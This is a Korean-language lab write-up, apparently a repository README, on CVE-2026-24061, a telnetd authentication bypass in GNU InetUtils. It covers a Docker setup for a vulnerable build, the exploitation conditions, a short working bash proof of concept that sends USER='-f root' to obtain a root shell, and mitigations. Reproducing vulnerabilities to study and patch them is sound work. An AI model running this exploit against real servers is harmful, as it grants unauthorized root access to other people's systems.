

# CVE-2026-24061

## 취약점 요약
GNU InetUtils 1.9.3부터 2.7까지의 버전은 `telnetd` 서버에서 발생하는 원격 인증 우회 취약점(CVE-2026-24061)에 영향을 받는다.
`telnetd` 서버는 Telnet 접속 과정에서 전달되는 `USER` 환경변수를 `login(1)` 프로그램에 전달하기 전에 적절히 검증하지 않는다. 공격자는 `USER` 환경변수에 `-f root`와 같이 조작된 값을 전달하여 `login(1)` 프로그램의 인증 우회 기능인 `-f` 플래그를 유발할 수 있으며, 이를 통해 인증 정보 없이 root 권한을 획득할 수 있다.
이 취약점은 인자 주입 취약점(CWE-88)이며, CVSS v3.1 점수는 9.8점으로 Critical 등급이다.

## 환경 구성
본 실습 환경은 Docker Compose를 이용하여 구성하였다. `docker-compose.yml`에는 `telnetd` 서비스가 정의되어 있으며, 현재 디렉터리의 `Dockerfile`을 이용해 GNU InetUtils 2.5 기반의 취약한 `telnetd` 환경을 직접 빌드한다.

```yaml
services:
  telnetd:
    build: .
    ports:
      - "2323:23"
```

취약 환경은 다음 명령어로 빌드 및 실행할 수 있다.

```bash
docker compose up -d --build
```

서비스가 정상적으로 시작되면 `telnetd`는 호스트의 `2323`번 포트에서 접근할 수 있다.

## 취약 조건
해당 취약점이 재현되기 위한 조건은 다음과 같다.
1. 취약한 버전의 GNU InetUtils `telnetd`가 실행 중이어야 한다.
2. 공격자가 Telnet 서비스에 네트워크로 접근 가능해야 한다.
3. Telnet 접속 과정에서 조작된 `USER` 환경변수 값이 전달돼야 한다.
4. `USER="-f root"`와 같은 값이 `login(1)` 프로그램에 인자로 전달될 경우 인증 우회가 발생 가능하다.


## 재현 절차


## PoC 코드
PoC 코드는 다음과 같다.

```bash
#!/bin/bash
TARGET_HOST=${1:-127.0.0.1}
TARGET_PORT=${2:-2323}
echo "[*] Target: ${TARGET_HOST}:${TARGET_PORT}"
echo "[*] GNU InetUtils telnetd Argument Injection Authentication Bypass"
echo "[*] Trying Authentication Bypass with USER=\"-f root\""
echo "[*] root shell will be open..."
echo
USER="-f root" telnet -a "$TARGET_HOST" "$TARGET_PORT"
```

PoC 코드의 실행방법은 다음과 같다.
```bash
chmod +x PoC.sh
./PoC.sh
```

## 실행 결과

위 사진은 ./PoC.sh을 실행한 결과다.
실행 후, root 권한을 획득한 것을 확인할 수 있다.

## 대응 방안
- GNU InetUtils를 취약하지 않은 버전으로 업데이트 한다.
- 외부에서 Telnet에 접근할 수 없도록 TCP 23번 port를 차단한다.
- Telnet은 평문으로 통신하는 오래된 protocol이므로, 사용을 자제한다.
